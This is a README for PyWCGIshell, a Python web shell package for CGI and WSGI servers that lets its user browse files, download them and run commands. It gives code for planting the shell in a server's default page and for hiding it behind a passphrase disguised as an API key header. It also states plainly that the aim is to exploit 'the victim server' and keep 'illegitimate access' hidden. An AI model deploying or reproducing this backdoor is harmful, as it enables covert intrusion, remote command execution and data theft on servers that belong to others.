 ![PyWCGIshell logo](https://mauricelambert.github.io/info/python/security/PyWCGIshell.png "PyWCGIshell logo")

# PyWCGIshell

## Description

This package implement a WebShell for CGI and WSGI server.

With this WebShell you can:
 - explore directories and download files
 - execute command lines (with command history)
 - show basic informations about environment server
 - show environments variables

## Requirements

This package require :
 - python3
 - python3 Standard Library

## Installation
```bash
pip install PyWCGIshell
```

## Usages

### Command line

(Command line is useful to try the webshell)

```bash
python3 -m PyWCGIshell wsgi # Try it in wsgi mode
```

### Python script

#### CGI page

```python
from PyWCGIshell import WebShell

def my_default_cgi_page():
	print("Content-type:text/plain; charset=utf-8")
	print("")
	print("Hello World !")

webshell = WebShell()
webshell.standard_page = my_default_cgi_page
webshell.run()
```

#### WSGI page

```python
from PyWCGIshell import WebShell

def my_default_wsgi_page(environ, start_response):
    status = '200 OK'
    headers = [('Content-type', 'text/plain; charset=utf-8')]
    start_response(status, headers)
    return [b"Hello World !"]

webshell = WebShell(type_="wsgi")
webshell.standard_page = my_default_wsgi_page
application = webshell.run
# Apache with mod_wsgi use the "application" as default function
```

#### WebShell options

```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="cgi", passphrase="SHELL", pass_type="method")
webshell.run()
```
I don't recommend using `method` like `pass_type` to hide your WebShell.

You can use similar configuration to hide your WebShell.
```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="wsgi", passphrase="<inexistant api key>", pass_type="header_value")
application = webshell.run
```

To use this WebShell:
 - Configure (server type, passphrase and passphrase location) and copy the WebShell code or install it
 - Paste it in the default page of the victim server or import it
 - Send a request with the passphrase and exploit the weak server

## Example

Install and configure PyWCGIshell on WebScripts to keep your illegitimate access and hide it ([repo is here](https://github.com/mauricelambert/WebScriptsWebShell)).

[![WebShell on WebScripts - Youtube](https://img.youtube.com/vi/pvaAwOkZ5FU/0.jpg)](http://www.youtube.com/watch?v=pvaAwOkZ5FU)

*WebShell on WebScripts - Youtube*

## Links

 - [Github Page](https://github.com/mauricelambert/PyWCGIshell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyWCGIshell.html)
 - [Pypi package](https://pypi.org/project/PyWCGIshell/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).

